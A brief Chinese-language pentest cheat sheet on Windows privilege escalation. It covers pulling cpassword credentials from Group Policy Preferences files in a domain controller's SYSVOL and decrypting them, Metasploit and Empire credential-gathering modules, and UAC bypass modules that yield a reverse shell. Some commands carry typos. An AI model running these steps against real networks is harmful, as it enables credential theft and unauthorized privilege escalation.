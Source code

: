 - 常见组策略首选项（GPP）

```
映射驱动器（Drivers.xml）
创建本地用户
数据源（DataSources.xml）
打印机配置（Printers.xml）
创建/更新服务（Services.xml）
计划任务(ScheduledTasks.xml)
```

#### 组策略首选项提权

- 创建组策略

```
手动更新组策略
gpupdate
```

##### 获取组策略凭据

- 手动查找cpassword

```
type \\dc\sysvol\pentest.com\Policies\{31B2F340-016D-11D2-945F-00c04FB984F9}\MACHINE\Perferences\Group\Groups.xml

解密
python gpprefdecryp.pt 密文
```
- 使用PowerShell获取cpassword

```
Get-GPPPassword.ps1
```

- Metasploit

```
post/windows/gather/credentials/gpp
```

- Empire

```
usemoudle privsec/gpp
```

### BypassUAC（用户账户控制）

- bypassuac模块

```
exploit/windows/local/bypassuac
```

- Runas模块

```
exploit/windows/local/ask 弹窗，点击反弹shell
```
